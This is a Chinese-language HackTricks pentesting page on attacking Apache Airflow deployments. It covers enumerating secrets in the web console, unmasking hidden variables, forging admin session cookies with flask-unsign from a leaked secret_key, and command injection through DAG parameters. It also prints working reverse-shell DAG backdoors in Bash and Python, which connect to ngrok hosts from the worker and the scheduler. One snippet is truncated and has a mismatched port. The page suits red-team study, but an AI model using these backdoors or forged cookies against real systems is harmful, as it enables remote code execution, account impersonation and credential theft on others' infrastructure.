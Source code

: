 # Apache Airflow 安全性

<details>

<summary><strong>从零开始学习 AWS 黑客技术，成为</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS 红队专家)</strong></a><strong>！</strong></summary>

支持 HackTricks 的其他方式：

* 如果您想在 **HackTricks 中看到您的公司广告** 或 **下载 HackTricks 的 PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取 [**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 发现 [**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们独家的 [**NFTs 集合**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享您的黑客技巧。

</details>

## 基本信息

[**Apache Airflow**](https://airflow.apache.org) 作为一个平台，用于**编排和调度数据管道或工作流**。在数据管道的上下文中，“编排”一词指的是安排、协调和管理来自不同来源的复杂数据工作流的过程。这些编排的数据管道的主要目的是提供经过处理的、可消费的数据集。这些数据集被广泛用于各种应用程序，包括但不限于商业智能工具、数据科学和机器学习模型，这些都是大数据应用运作的基础。

基本上，Apache Airflow 将允许您**在某些事情**（事件，cron）**发生时安排代码的执行**。

## 本地实验室

### Docker-Compose

您可以使用来自 [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) 的 **docker-compose 配置文件** 来启动一个完整的 apache airflow docker 环境。（如果您使用的是 MacOS，请确保为 docker VM 至少分配 6GB 的 RAM）。

### Minikube

一个简单的方法来**运行 apache airflow** 是**使用 minikube**：
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
## Airflow 配置

Airflow 可能会在其配置中存储**敏感信息**，或者您可能会发现配置较弱：

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

## Airflow RBAC

在开始攻击 Airflow 之前，您应该了解**权限是如何工作的**：

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

## 攻击

### Web 控制台枚举

如果您有**访问 web 控制台的权限**，您可能能够访问以下部分或全部信息：

* **变量**（自定义敏感信息可能存储在此处）
* **连接**（自定义敏感信息可能存储在此处）
* 在 `http://<airflow>/connection/list/` 访问它们
* [**配置**](./#airflow-configuration)（敏感信息如 **`secret_key`** 和密码可能存储在此处）
* 列出**用户和角色**
* **每个 DAG 的代码**（可能包含有趣的信息）

### 检索变量值

变量可以存储在 Airflow 中，以便 **DAGs** 可以**访问**它们的值。这类似于其他平台的秘密。如果您有**足够的权限**，您可以在 GUI 中通过 `http://<airflow>/variable/list/` 访问它们。\
Airflow 默认会在 GUI 中显示变量的值，但是根据[**这篇文章**](https://marclamberti.com/blog/variables-with-apache-airflow/)，可以设置一个**变量列表**，其**值**将以**星号**形式出现在**GUI**中。

![](<../../.gitbook/assets/image (79).png>)

然而，这些**值**仍然可以通过**CLI**（您需要有数据库访问权限）、**任意 DAG** 执行、访问变量端点的 **API**（需要激活 API），甚至**GUI 本身**来**检索**！\
要从 GUI 访问这些值，只需**选择您想访问的变量**，然后**点击 Actions -> Export**。\
另一种方式是对**隐藏值**进行**暴力破解**，使用**搜索过滤**直到获取它：

![](<../../.gitbook/assets/image (30).png>)

### 权限提升

如果**`expose_config`** 配置设置为 **True**，则从**用户角色**及以上角色可以**在 web 中读取**配置。在此配置中，**`secret_key`** 会出现，这意味着任何拥有此有效的用户都可以**创建自己的签名 cookie 来冒充任何其他用户账户**。
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
### DAG 后门（Airflow 工作节点中的 RCE）

如果你拥有**写入权限**到**DAGs 存储位置**，你可以简单地**创建一个**将会给你发送**反向 shell**的 DAG。\
注意，这个反向 shell 将会在**airflow 工作容器**内执行：
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
### DAG 后门 (Airflow 调度器中的 RCE)

如果您设置某些内容在**代码根目录**中**执行**，在撰写本文时，将在将其放入 DAG 文件夹后几秒钟内由调度器**执行**。
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
### DAG 创建

如果您设法**在 DAG 集群内部的机器上实施渗透**，您可以在 `dags/` 文件夹中创建新的**DAG 脚本**，它们将会在 DAG 集群内的**其他机器上复制**。

### DAG 代码注入

当您通过 GUI 执行 DAG 时，您可以向它**传递参数**。\
因此，如果 DAG 编码不当，可能会**容易受到命令注入的攻击**。\
这就是此 CVE 中发生的情况：[https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

您需要知道的所有信息，以**开始寻找 DAG 中的命令注入**是，**参数**是通过代码**`dag_run.conf.get("param_name")`**来**访问**的。

此外，相同的漏洞可能发生在**变量**上（注意，如果有足够的权限，您可以在 GUI 中**控制变量的值**）。变量是通过以下方式**访问**：
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
```markdown
如果它们例如在bash命令中使用，你可以执行命令注入。

<details>

<summary><strong>从零开始学习AWS黑客技术，成为</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS红队专家)</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果你想在**HackTricks中看到你的公司广告**或**下载HackTricks的PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在**Twitter** 🐦 上**关注**我 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享你的黑客技巧。

</details>
```
